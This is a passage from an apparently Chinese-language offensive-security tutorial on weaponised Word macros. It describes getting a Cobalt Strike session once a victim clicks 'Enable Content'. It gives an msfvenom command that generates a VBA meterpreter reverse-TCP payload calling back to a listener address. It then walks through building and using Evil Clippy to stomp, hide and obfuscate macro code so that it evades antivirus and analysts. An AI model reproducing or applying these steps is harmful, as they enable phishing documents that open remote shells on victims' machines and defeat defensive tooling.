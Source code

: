 另存为的Word类型务必要选”Word 97-2003 文档 (*.doc)”，即 doc 文件，保证低版本可以打开。之后关闭，再打开即可执行宏代码。

![image-20210319164617504](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173743.png)

默认情况下，Office已经禁用所有宏，但仍会在打开Word文档的时候发出通知。

![image-20210319164711727](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173744.png)

点击启用内容，CS即上线

![image-20210319164800607](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173745.png)

MSF生成宏

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.148 LPORT=4444 -f vba -o vba.txt
```

上线不稳定。

#### 2.3 宏免杀

Evil Clippy

```txt
https://github.com/outflanknl/EvilClippy/releases
```

windwos安装:

在Visual Studio开发者命令行窗口中输入下列命令：

```cmd
csc/reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
```

运行成功，生成exe程序。

```cmd
Usage: eviloffice.exe [OPTIONS]+ filename

Author: Stan Hegt
Email: stan@outflank.nl

Options:
  -n, --name=VALUE           The target module name to stomp.
                               This argument can be repeated.
  -s, --sourcefile=VALUE     File containing substitution VBA code (fake
                               code).
  -g, --guihide              Hide code from VBA editor GUI.
      --gg, --guiunhide      Unhide code from VBA editor GUI.
  -t, --targetversion=VALUE  Target MS Office version the pcode will run on.
  -w, --webserver=VALUE      Start web server on specified port to serve
                               malicious template.
  -d, --delmetadata          Remove metadata stream (may include your name
                               etc.).
  -r, --randomnames          Set random module names, confuses some analyst
                               tools.
      --rr, --resetmodulenames
                             Undo the set random module names by making the
                               ASCII module names in the DIR stream match their
                               Unicode counter parts
  -u, --unviewableVBA        Make VBA Project unviewable/locked.
      --uu, --viewableVBA    Make VBA Project viewable/unlocked.
  -v                         Increase debug message verbosity.
  -h, --help                 Show this message and exit.
```
